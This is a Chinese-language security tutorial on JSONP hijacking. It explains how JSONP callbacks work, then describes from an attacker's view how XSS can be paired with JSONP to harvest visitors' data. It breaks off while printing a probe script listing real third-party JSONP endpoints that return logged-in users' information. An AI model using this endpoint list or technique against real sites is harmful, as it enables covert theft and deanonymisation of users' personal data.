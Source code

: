# JSONP挖掘与高级利用

**本文仅提供给爱好者学习交流，切勿用于其他`非法用途`**

0x00 参考资料
=========

* * *

1.  [利用JSONP进行水坑攻击 - 乌云知识库](http://drops.wooyun.org/papers/6612)
2.  [JSONP 安全攻防技术 - 知道创宇](http://blog.knownsec.com/2015/03/jsonp_security_technic/)

0x01 漏洞之我见
==========

* * *

> 这里不多说JSONP的介绍等，大家都懂。

这里，我站在程序员的角度去解释JSONP的正常使用。  
首先，定义一个用于接收数据的回调函数，比如：

```
function myData(data) {
    console.log('[!] DATA: ', data);
}

```

然后呢，我们就采用`<script>`标签去跨域获取数据：

```
<script src="http://root.cool/userinfo?fn=myData"></script>

```

当获取完如上url的内容后，会自动解释成`js`代码执行。由此来看，以上url访问输出的结果类似如下：

```
myData([{nickname: 'ANT', weibo: 'http://weibo.com/antoor'}])

```

其实就是执行了我们刚刚定义的`myData`函数并把需要的数据当作参数传入了进去而已。  
这样，我们就能理所当然地在`myData`函数中就获取到了我们所需要的数据。

**然后，我们站在攻击者的角度去想，如何最大化利用这个给程序员带来的方便的同时所带来的`安全隐患`？**

0x02 测试与构思
==========

* * *

这个漏洞和`xss`结合是非常完美的一种攻击手段，而这个功能，在蚁逅平台中的`蚁弹超人`早已经很容易地得到实现。 我们还是和程序员一样，先定义一个用来接收数据的函数，然后把我们挖掘到的`JSONP`接口进行逐个测试获取信息并返回，这样，就达到了我们获取目标信息的手段。  
用蚁弹超人中的`JSONP探测`插件的服务端代码来解释（已经去掉一些不好的接口）：

```
(function(API, AUTOSTART) {
    var JSONP = {
        hooks: [{
            name: '人人网1',
            link: 'http://base.yx.renren.com/RestAPI?method=api.base.getLoginUser&format=2&callback='
        }, {
            name: '人人网2',
            link: 'http://passport.game.renren.com/user/info?callback='
        }, {
            name: '网易163',
            link: 'http://comment.money.163.com/reply/check.jsp?time=1367240961474&callback='
        }, {
            name: '天涯论坛1',
```